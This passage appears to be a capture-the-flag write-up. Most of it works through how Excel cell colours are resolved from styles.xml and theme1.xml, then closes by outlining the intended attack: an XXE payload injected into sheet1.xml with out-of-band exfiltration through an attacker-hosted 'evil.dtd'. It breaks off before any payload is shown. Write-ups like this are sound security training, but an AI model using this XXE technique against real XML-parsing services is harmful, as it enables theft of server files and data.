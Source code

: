 `fgColor` can be:
- `rgb="AARRGGBB"` → strip alpha → `#RRGGBB`
- `theme="N"` (+ `tint`) → map via `theme1.xml`, then apply tint
- `indexed="N"` → which is here for legacy which we will ignore
- 
> Note that: Only `patternType="solid"` becomes a flat background.

### 5.3 `theme1.xml` (theme → RGB)

```xml
<a:clrScheme>
  <a:dk1><a:srgbClr val="000000"/></a:dk1>
  <a:lt1><a:srgbClr val="FFFFFF"/></a:lt1>
  <a:accent1><a:srgbClr val="156082"/></a:accent1>
  ...
</a:clrScheme>
```

Resolver index (start from 0-1-2-3-4-5...):

```
[ lt1, dk1, lt2, dk2, accent1..accent6, hlink, folHlink ]
  0    1    2    3        4 .. 9        10       11
```
- Example: `theme="4"` → `accent1` (e.g., `#156082`).

**Tint math:**
- `tint >= 0`: `new = old*(1-tint) + 255*tint`
- `tint < 0`: `new = old*(1+tint)`  
    Clamp to 0–255, then hex `#RRGGBB`.
    
### 5.4 End-to-end examples from my sample
- **B2**: `s=5` → `fillId=6` → `theme=4`, `tint≈-0.5` → **`#0B3041`**
- **A1**: `s=1` → `fillId=2` → `rgb=FFFFFF00` → **`#FFFF00`**
- **E13**: `s=9` → `fillId=10` → `rgb=FF0070C0` → **`#0070C0`**
    
> So an overall flow would like something like this:
>  `s (style index)` → `fillId` → `fgColor` (`rgb` or `theme(+tint)`) → `#RRGGBB`.

---
## 6. Intended Solve
So from what we observe in the website, xml files from the Excel file like sheet1.xml, styles.xml and theme1.xml are parsed to actually map them on the website. So now we will be crafting an XXE payload and injecting it in one of the xml sheet .
    
### 6.1 Injection Point

- I chose sheet1 as an example but you can use any of the parsed files:
   `xl/worksheets/sheet1.xml` 
   
### 6.2 OOB (out of bound) Exfiltration via Remote DTD

**Attacker hosts the DTD (hosted):**
evil.dtd
